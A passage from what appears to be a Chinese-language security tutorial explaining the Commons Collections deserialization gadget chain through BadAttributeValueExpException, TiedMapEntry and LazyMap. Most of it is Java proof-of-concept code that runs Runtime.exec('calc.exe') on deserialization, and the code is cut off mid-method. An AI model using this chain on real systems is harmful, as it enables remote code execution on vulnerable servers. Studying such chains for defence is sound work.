 ```java
      public Object getValue() {
          return map.get(key);
      }

      /**
       * Gets a string version of the entry.
       *
       * @return entry as a string
       */
      public String toString() {
          return getKey() + "=" + getValue();
      }
  }
```

让我们看看这个类，首先是toString()中调用了getValue(),getValue()中实际是map.get(key),这样一来我们就构建起了整个调用链接了

## 使用方式

让我们从被序列化的类展开来看

```
BadAttributeValueExpException 中的属性 Object val --> TiedMapEntry
TiedMapEntry 的 toString() 方法调用了自身map属性的getValue() 方法 --> LazyMap
LazyMap的getValue拿到的必然是一个空对象,因此会触发LazyMap属性中配置的Transformer.transform()
Transformer 是我们构建的包含有恶意代码的对象
```

组合后使用的代码如下所示

```java
public class BadExceptionTest {
    public static void main(String[] args) throws Exception {
        new BadExceptionTest().run();
    }
    public void run() throws Exception {
        deserialize(serialize(getObject()));
    }
    //在此方法中返回恶意对象
    public Object getObject() throws Exception {
        //构建恶意代码
        String command="calc.exe";
        final String[] execArgs = new String[] { command };
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs)
        };
        Transformer transformer=new ChainedTransformer(transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        //利用反射的方式来向对象传参
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);
        return val;
    }
    public  byte[] serialize(final Object obj) throws IOException {
```